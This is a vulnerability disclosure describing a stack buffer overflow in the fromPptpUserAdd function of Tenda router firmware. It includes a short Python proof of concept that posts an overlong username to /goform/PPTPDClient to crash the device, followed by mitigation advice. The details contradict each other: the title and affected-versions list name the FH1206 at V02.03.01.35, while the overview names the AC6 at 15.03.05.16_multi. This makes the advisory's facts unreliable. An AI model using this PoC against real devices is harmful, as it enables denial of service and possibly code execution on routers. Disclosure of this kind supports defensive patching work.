 # Stack Overflow Vulnerability in Tenda FH1206 Firmware

## Vulnerability Overview
There is a stack-based buffer overflow vulnerability in the Tenda AC6 firmware version 15.03.05.16_multi.
The vulnerability exists in the fromPptpUserAdd function of the firmware. Specifically, the username parameter, which is obtained via the HTTP request using websGetVar, is copied directly into a fixed-size buffer without proper length validation.

In the vulnerable function, the username value (stored in variable Var) is later used in multiple sprintf calls to construct configuration strings (e.g., sprintf(s_4, "1;%d;%s;%s;%s;%s;%s;%s", i, Var, ...)). Since the destination buffer s_4 has a fixed size of 1024 bytes and no boundary checks are performed, an attacker can provide an overly long username input to trigger a buffer overflow.

This flaw allows a remote attacker to send a specially crafted HTTP request with a malicious username parameter, causing a stack-based buffer overflow and leading to a device crash (DoS). In certain scenarios, it could potentially be exploited to achieve arbitrary code execution.

## Root Cause

The vulnerability arises from improper sanitization of user input and unsafe use of sprintf when handling the username parameter, which directly overwrites stack memory.
![Root Cause of Stack Overflow Vulnerability](fromPptpUserAdd5.png)
![Root Cause of Stack Overflow Vulnerability](fromPptpUserAdd6.png)

## Affected Versions
- Tenda FH1206 V02.03.01.35


## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/PPTPDClient"

data = {"username": "E"*1000, "flag": "0"}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
```
![PoC](fromPptpUserAdd2.png)
### PoC Run Results:
![Results](fromPptpUserAdd1.png)




## Mitigation
- Apply the latest firmware update from Tenda to address this issue.
- Ensure proper input validation and sanitization to prevent stack overflow attacks.

